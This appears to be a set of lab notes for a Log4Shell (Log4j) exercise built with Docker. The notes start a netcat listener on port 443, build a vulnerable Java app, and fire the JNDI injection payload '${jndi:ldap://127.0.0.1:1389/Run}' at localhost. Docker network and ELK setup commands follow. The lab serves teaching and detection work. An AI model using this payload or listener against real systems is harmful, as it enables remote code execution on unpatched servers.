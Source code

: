 # 3204

Set up Attack
cd log4jshell-lab/attacker
docker-compose build 
docker-compse up -d 

net cat listener 
nc -lvnp 443


start the java app
cd log4jshell-lab/victim/vuln-apps/others/basicJar

docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install



run exploit 
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'



# 3204


# run file
#sudo docker-compose build<br/>
#sudo docker-compose up -d 


# check IP
#sudo docker-compose ps 
	sudo docker-compose <id container> | grep IPAddress
  
# stop docker 
	sudo docker-compose kill && docker-compose rm -f 

# Network connectivity
	docker network connect bridge web-server
	docker network connect bridge ldap-server
	docker network connect bridge 3204-logstash-1
	docker network connect bridge 3204-kibana-1
	docker network connect bridge 3204-elasticsearch-1
	docker network connect bridge 3204-sshftp

	docker network disconnect attacker_log4j web-server
	docker network disconnect attacker_log4j ldap-server
	docker network disconnect 3204_elk 3204-logstash-1
	docker network disconnect 3204_elk 3204-kibana-1
	docker network disconnect 3204_elk 3204-elasticsearch-1

	docker network rm attacker_log4j<br/>
	docker network rm 3204_elk

